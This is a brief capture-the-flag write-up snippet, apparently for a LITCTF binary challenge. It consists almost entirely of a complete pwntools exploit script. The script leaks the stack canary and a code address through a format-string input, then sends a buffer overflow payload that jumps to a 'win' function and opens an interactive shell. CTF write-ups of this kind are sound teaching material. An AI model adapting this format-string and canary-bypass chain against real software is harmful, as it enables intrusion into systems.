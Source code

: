 Here is the final script

    from pwn import *
    #context.log_level = 'debug'
    elf = context.binary = ELF("./s")
    ip, port = "litctf.org", 31791
    io = elf.process()
    #io = remote(ip,port)
    #Leak Canary
    p1 = "%33$p||%41$p"
    io.sendline(p1)
    data = io.recv(1024, timeout=2).split(b"||")
    canary = int(data[0],16)
    text = int(data[1], 16)
    log.info(f"Canary : {hex(canary)}")
    #Shell?
    sub = 0x1100
    base = text - sub
    log.info(f"Base Address: {hex(base)}")
    win = p64(base + elf.sym['win'])
    ret = p64(base + 0x000000000000101a)
    log.info(f"Win @ {hex(u64(win))}")
    off = 40
    p2 = b"A"*off
    p2 += p64(canary)
    p2 += b"A"*8
    p2 += ret
    p2 += win
    io.sendline(p2)
    io.interactive()

